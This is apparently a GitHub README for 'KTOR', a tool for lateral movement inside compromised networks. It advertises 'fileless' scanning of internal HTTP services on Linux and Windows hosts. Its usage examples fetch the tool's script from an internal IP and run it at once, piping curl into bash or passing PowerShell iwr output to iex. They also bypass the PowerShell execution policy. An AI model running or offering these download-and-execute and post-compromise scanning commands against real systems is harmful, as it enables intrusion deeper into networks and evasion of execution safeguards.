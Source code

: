 # KTOR


KTOR is a tool specifically designed for lateral movement in Linux. With this tool, you can quickly scan internal HTTP services for further network penetration, achieving fileless scanning.

 
# KTOR for Linux

`$ ./ktor.sh -h`

![alt text](./pic/image.png)


## Scan localhost


`$ curl http://10.10.16.28/ktor.sh|bash -s -- -l -p all`

![alt text](./pic/image-1.png)

## Scan other machines through the interface

`$ curl http://10.10.16.28/ktor.sh|bash -s -- -i eth0 -p 80,8080 -t 100`

![alt text](./pic/image-2.png)


# KTOR for Windows

`PS> Set-ExecutionPolicy Bypass -Scope Process -Force;.\ktor.ps1`

![alt text](./pic/wimage.png)



## Scan localhost

`PS> iex "& { $(iwr http://192.168.0.106/ktor.ps1 -UseBasicParsing) } -Local"`


![alt text](./pic/wimage-1.png)


## Scan other machines



`PS> iex "& { $(iwr http://192.168.0.106/ktor.ps1 -UseBasicParsing) } -Targets 192.168.0.106 -Ports 80,8080,8000"`

![alt text](./pic/wimage-2.png)